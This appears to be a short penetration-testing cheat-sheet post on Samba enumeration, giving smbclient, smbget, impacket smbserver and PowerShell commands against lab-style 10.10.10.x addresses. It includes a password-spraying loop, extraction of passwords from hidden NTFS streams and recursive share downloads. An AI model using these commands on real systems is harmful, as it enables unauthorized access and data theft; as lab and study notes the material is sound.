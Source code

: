 ```yaml
---
title: SAMBA
author: S0lrak
date: 2020-04-13
category: Windows Stuff
layout: post
description: Useful Samba enumeration and exploitation
---
```


# SAMBA

## SMBCLIENT

Smbclient is a good utility tool to connect to samba shares, enumerate, download and upload files.

```bash
# List all shares
smbclient -L //10.10.10.161
```

```bash
# Access specified share using current users or Guest
smbclient \\\\10.10.10.178\\Data

# Access share with credentials
smbclient \\\\10.10.10.178\\Data -U user%password
```

```bash
# Recursively check alll the directory when using 'ls':
> recurse on
```

```bash
# Check for hidden NTFS streams inside smba share
allinfo "file.txt"
get "Debug Mode Password.txt:Password"
```

```bash
# Password spraying/brute force example
for pass in $(cat passwords.txt); do smbclient -L 10.10.10.172 -U=user%$pass; done
```

## SMBGET

wget-like utility to download files directly over SMB directly from bash.

```bash
# Recursively download all possible files from a samba share:
smbget -R  smb://10.10.10.178/share/ -U user%password
```

## SMBSHARE.PY

Impcaket script to setup a quicky samba share

```bash
smbserver.py SHARE /var/tmp/
```

## IMPACKET-SMBSERVER

impacket script to setup a samba server.

```bash
impacket-smbserver share $(pwd) -smb2support -user user -password secret
```

## Mount SAMBA shares in powershell

```bash
$pass = convertto-securestring 'secret' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('DC\user', $pass)
New-PSDrive -Name share-PSProvider FileSystem -Credential $cred -Root \\10.10.10.3:\share

```

Check more powershell stuff here.

